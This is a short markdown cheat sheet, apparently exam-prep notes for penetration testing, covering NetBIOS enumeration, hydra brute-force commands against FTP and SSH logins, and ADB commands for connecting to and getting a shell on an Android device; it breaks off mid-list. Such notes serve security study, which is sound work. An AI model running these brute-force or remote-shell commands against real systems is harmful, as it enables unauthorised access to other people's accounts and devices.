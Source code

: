 ```bash
nbstat -a IP
```

- -a NetBios name table
- -c list contents of NetBios name cache

```bash
net use
```

- Displays connection status, Shared folder/drive and Network Information.

## FTP-Bruteforce 

hydra -L /path/to/username.txt -P /path/to/password.txt ftp://192.168.0.109 -V

## SSH-Bruteforce

hydra -L /path/to/username.txt -P /path/to/password.txt ssh://192.168.0.109 -V

# Android

- Connecting to Mobile Device
- Getting shell on Mobile Device

## Answer

### Using ADB Commands

https://n00bie.medium.com/hacking-android-using-phonesploit-ffbb2a899e6

- Install ADB on the machine 

```bash
apt-get install adb
```

- Using ADB to check connected Android Devices

```bash
adb devices -l
```

- Using ADB to connect Android Device

```bash
adb connect 192.168.0.x:<port>
```

- Get into shell mode to connected Android Device

```bash
adb shell
```

- Download Files Using ADB
